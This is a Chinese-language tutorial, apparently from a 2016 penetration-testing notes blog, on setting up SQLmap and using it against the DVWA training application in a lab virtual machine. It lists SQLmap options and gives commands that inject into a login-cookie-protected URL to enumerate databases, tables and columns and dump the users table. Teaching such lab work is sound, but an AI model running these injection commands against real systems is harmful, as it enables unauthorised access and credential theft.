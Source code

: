 ```yaml
---
author: 星火燎原@vxhly
title: 渗透工具用法（一）SQLmap 的用法
category: [pentest]
tag: [Security, Liunx, Python, Pentest]
date: 2016-09-20 10:46:46
---
```


::: tip 前言

此系列笔记是网络渗透工具的使用方法, 本篇是介绍 SQL 注入工具 SQLmap 的使用方法。SQLmap 是一款用来检测与利用 SQL 注入漏洞的免费开源工具, 有一个非常棒的特性, 即对检测与利用的自动化处理（数据库指纹、访问底层文件系统、执行命令）。

:::

<!-- more -->

## SQLmap 环境

::: tip 提示

由于 `kali Liunx` 已经集成了 SQLmap 的环境, 这里就直接介绍 `Windows` 下环境的构建。

:::

### 先安装 Python

正常情况下我们安装 `2.7.x` 就好了。

[Python 官网下载地址](http://www.python.org/getit/)

接下来只需在环境变量 `path` 中添加 Python 的安装路径就好了。<br>

![SQLmap](/assets/sqlmap-1.png)

### 再安装 SQLmap

[SQLmap 官网下载地址](http://sqlmap.org/)

将 SQLmap 解压至 Python 目录下, 将 SQLmap 的程序目录重命名为 sqlmap。

#### 在桌面新建快捷方式

`For Example:`

![SQLmap](/assets/sqlmap-2.png)

<br>

![SQLmap](/assets/sqlmap-3.png)

<br>

![SQLmap](/assets/sqlmap-4.png)

## DVWA 环境

DVWA(Dam Vulnerable Web Application) 使用 `PHP+Mysql` 编写的一套用于常规 WEB 漏洞教学和检测的 WEB 脆弱性测试程序。包含 SQL 注入、XSS、盲注等常见的一些漏洞。

[DVWA GitHub 下载地址](http://github.com/ethicalhack3r/DVWA)

在 `Windows` 下还需安装 `PHP` 环境, 这里推介两个 `PHP` 集成环境。

[upupw PHP 集成环境](http://www.upupw.net/) [phpStudy PHP 集成环境](http://www.phpstudy.net/)

接下来只需修改一下配置文件就好了。

## SQlmap 使用方法

`Windows` 下跟 `kali Liunx` 下使用方法不相同。

为方便演示, 我们创建两个虚拟机:

- 受害者机器, `Windows 2003` 操作系统, 运行一个 WEB 服务器, 同时跑着一个包含漏洞的 WEB 应用（DVWA）。
- 攻击器机器, 使用 `kali Liunx` 或者其他版本的 `Windows` 包含 SQLmap 程序。

本次实验的目的: 使用 SQLmap 得到以下信息:

- 枚举 MYSQL 用户名与密码。
- 枚举所有数据库。
- 枚举指定数据库的数据表。
- 枚举指定数据表中的所有用户名与密码。

### 查看帮助

`Windows: ` 查看 Python 帮助命令

```bash
python sqlmap.py -h
```

`kali Liunx: ` 查看 Python 帮助命令

```bash
sqlmap -h
```

::: warning 注意

需要注意的是 `Windows` 下的选项和 `kali Liunx` 下的选项是一致的, 但是命令是不一致的。在 `Windows` 下使用 `python sqlmap.py` , 而在 `kali Liunx` 下使用的是 `sqlmap` 。

:::

### 选项解释

- **--cookie** => 设置我们的 cookie 值 "将 DVWA 安全等级设置为 low"
- **--data** => 设置 POST 提交的值, 如果是 GET 提交, 不需要此选项
- **-u** => 指定目标 URL
- **-b** => 获取 DBMS banner
- **--current-db** => 获取当前数据库
- **--current-user** => 获取当前数据库的用户
- **--tables** => 获取数据库里所有的表名
- **--columns** => 获取表里的所有字段
- **--dump** => 获取值
- **--current-user** => 获取当前用户
- **-D** => 爆库指定数据库名
- **-T** => 爆库指定表名
- **-C** => 爆库指定字段名
- **--string** => 当查询可用时用来匹配页面中的字符串
- **--users** => 枚举 DBMS 用户
- **--password** => 枚举 DBMS 用户密码 hash
- **--dbs** => 枚举 DBMS 中的数据库

## 开始爆库

由于 `Windows` 和 `kali Liunx` 的做法基本一致, 这里以 `kali Liunx` 为例。DVWA 的难度为 low。

### 先获取 Cookie

每一次的 Cookie 都不一样, 这里是个示范。

`For Example:` <br>

![SQLmap](/assets/sqlmap-5.png)

### 获取数据库, --current-db

`For Example:`

```bash
sqlmap -u "//192.168.79.132/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=austaukdtb8jq2919eideuqkp3;security=low" --current-db
```

URL 地址和 Cookie 请用真实的替换掉。这条命令可以把当前所有的数据库获取出来的。注意 `--current-db` 的 `-` 可是有两个的。

![SQLmap](/assets/sqlmap-6.png)

### 获取表, --tables

前面, 我们已经获取到数据库名, 这时候我们要指定数据库名。使用 `-D` 选项指定数据库名。注意 `--tables` 的 `-` 可是有两个的。

`For Example:`

```bash
sqlmap -u "//192.168.79.132/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=austaukdtb8jq2919eideuqkp3;security=low" -D 'dvwa' --tables
```

![SQLmap](/assets/sqlmap-7.png)

### 获取字段, --columns

::: tip 提示

前面, 我们已经获取到数据库名和表名了, 这时候我们要指定数据库名和表名。使用 `-D` 选项指定数据库名, 使用 `-T` 指定表名。这里我们选择表 `users` 。注意 `--columns` 的 `-` 可是有两个的。

:::

`For Example:`

```bash
sqlmap -u "//192.168.79.132/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=austaukdtb8jq2919eideuqkp3;security=low" -D 'dvwa' -T 'users' --columns
```

![SQLmap](/assets/sqlmap-8.png)

### 获取数据, --dump

::: tip 提示

前面, 我们已经获取到数据库名、表名还有字段名了, 这时候我们要指定数据库名、表名还有字段名。使用 `-D` 选项指定数据库名, 使用 `-T` 指定表名, 使用 `-C` 指定字段名。这里我们选择表 `users` 中的字段 `user_id` 。注意 `--dump` 的 `-` 可是有两个的。

:::

`For Example:`

```bash
sqlmap -u "//192.168.79.132/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=austaukdtb8jq2919eideuqkp3;security=low" -D 'dvwa' -T 'users' -C 'user_id' --dump
```

![SQLmap](/assets/sqlmap-9.png)
